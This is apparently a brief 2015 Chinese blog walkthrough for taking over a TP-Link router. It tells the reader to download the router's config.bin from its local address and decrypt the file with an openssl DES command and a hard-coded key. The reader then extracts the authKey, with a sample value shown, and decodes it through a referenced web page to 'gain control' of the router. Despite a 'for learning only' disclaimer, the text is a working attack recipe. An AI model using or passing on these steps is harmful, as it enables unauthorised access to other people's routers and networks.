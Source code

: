 # TP-LINK config.bin 解码
## *Sat Oct 31 14:22:04 2015*

*文章内容仅供学习讨论，请勿随意模仿或触犯法律条款*

> 参考内容: [链接0](http://teknoraver.net/software/hacks/tplink/) [链接1](http://www.wooyun.org/bugs/wooyun-2015-0110062)

****

##步骤

* 首先要已经与目标路由器建立连接
* 访问 [http://192.168.1.1/config.bin](http://192.168.1.1/config.bin)
* 保存 config.bin 到本地
* 依照 链接0 的叙述，解码该文件
	`openssl enc -d -des-ecb -nopad -K 478DA50BF9E3D2CF -in config.bin > a.txt`
* a.txt 便是包含路由配置信息的明文文本
* 将 链接1 中的代码保存为网页
* 用浏览器打开这个网页，将 a.txt 中的 
> authKey 0rZily4W9TefbwK 
粘帖在解码栏内，就可以愉快地获得这款路由的控制权了，具体原理见 链接0
